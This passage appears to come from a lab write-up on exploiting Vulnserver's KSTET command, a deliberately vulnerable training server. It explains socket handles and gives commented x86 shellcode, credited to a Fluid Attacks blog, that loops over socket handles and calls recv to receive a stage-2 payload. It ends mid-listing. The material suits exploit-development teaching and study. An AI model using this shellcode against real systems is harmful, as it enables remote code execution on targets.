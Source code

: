 		<img src="Images/I30.png" width=600>

		* The File Descriptor used for the socket can also be extracted, however this is essentially a random number from call to call, so we cannot rely on this from exploit to exploit. So the Socket Handle information is not that useful in this case.
4. Use the following shell code from the [blog](https://fluidattacks.com/blog/vulnserver-kstet/) provided by fluid attacks
	```
	sub esp,0x64            ; Move ESP pointer above our initial buffer to avoid
							; overwriting our shellcode
	xor edi,edi             ; Zero out EDI (Anything XORed with itself is 0)
	socket_loop:            ; Brute Force Loop Label
	xor ebx,ebx             ; Zero out EBX (Anything XORed with itself is 0)
	push ebx                ; Push 'flags' parameter = 0 
	add bh,0x4              ; Make EBX = 0x00000400 which is  1024 bytes
	push ebx                ; Push `len` parameter, this is 1024 bytes
	mov ebx,esp             ; Move the current pointer of ESP into EBX
	add ebx,0x64            ; Point EBX the original ESP to make it the pointer to
							; where our stage-2 payload will be received
	push ebx                ; Push `*buf` parameter = Pointer to ESP+0x64
	inc edi                 ; Make EDI = EDI + 1
	push edi                ; Push socket handle `s` parameter = EDI, For each loop we increment EDI
	mov eax,0x40252C90      ; We need to make EAX = 0040252C but we can't inject
							; null bytes. So 40252C90 is shift-left padded with 90 (NOP)
